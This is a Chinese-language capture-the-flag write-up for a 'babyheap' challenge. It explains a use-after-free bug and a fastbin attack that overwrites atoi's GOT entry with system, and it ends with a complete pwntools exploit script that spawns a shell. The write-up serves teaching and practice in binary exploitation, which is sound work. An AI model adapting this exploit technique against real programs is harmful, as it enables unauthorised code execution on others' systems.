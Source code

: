 [![](https://p0.ssl.qhimg.com/t018815cb2530774d3e.png)](https://p0.ssl.qhimg.com/t018815cb2530774d3e.png)<br>
这里简单的看一看主程序，其中很多我们有进行标名称大概就是一个create函数（只可执行有限次数）无法输入字符仅用做固定0x60进行malloc<br>
然后delte操作，然后edit操作，接着给了我们一个gift操作这里可以让我们额外申请一个块且可输入。

#### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E7%82%B9"></a>漏洞点

这里有一个uaf洞，但是说实在的其中没有常规泄漏的操作让我有点迷，最后发现存在buf这一个空指针可以加以利用。

[![](https://p5.ssl.qhimg.com/t01ee6bb82b640073e9.png)](https://p5.ssl.qhimg.com/t01ee6bb82b640073e9.png)

[![](https://p4.ssl.qhimg.com/t0197529b921ca87487.png)](https://p4.ssl.qhimg.com/t0197529b921ca87487.png)

#### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF"></a>利用思路

首先利用错位技术绕过对size的检查和fastbin attack将我们的堆分配到bss段从而改变buf指针，指向atoi函数，泄漏出libc及地址。下一步buf-&gt;atoi-&gt;got，将got内容改为system然后在下次选项输入/bin/sh就可以getshell了。

#### <a class="reference-link" name="exp"></a>exp

```
from pwn import *
p=process('./babyheap')
#p=remote('51.68.189.144',31005)
context(log_level='debug')
a=ELF('./babyheap')
e = a.libc
p.readuntil('&gt;')
gdb.attach(p)
def create():
    p.writeline('1')
    p.readuntil('&gt;')
def dele():
    p.writeline('4')
    p.readuntil('&gt;')    
def edit(a):
    p.writeline('2')
    p.readuntil('Content?')
    p.write(a)
    p.readuntil('&gt;')
def gift(a):
    p.writeline('1337')
    p.readuntil('Fill')
    p.write(a)
    p.readuntil('&gt;')
create()
dele()

edit(p64(0x602095-8))
create()
gift('a'*(59-0x10)+p64(0x602060))

p.writeline('3')
p.readuntil('Content: ')
libc=u64(p.readuntil('n')[:-1].ljust(8,'0'))-e.symbols['atoi']
oneget=libc+e.symbols['system']    
edit(p64(oneget))
print hex(oneget)
p.write('/bin/sh')
p.interactive()
```
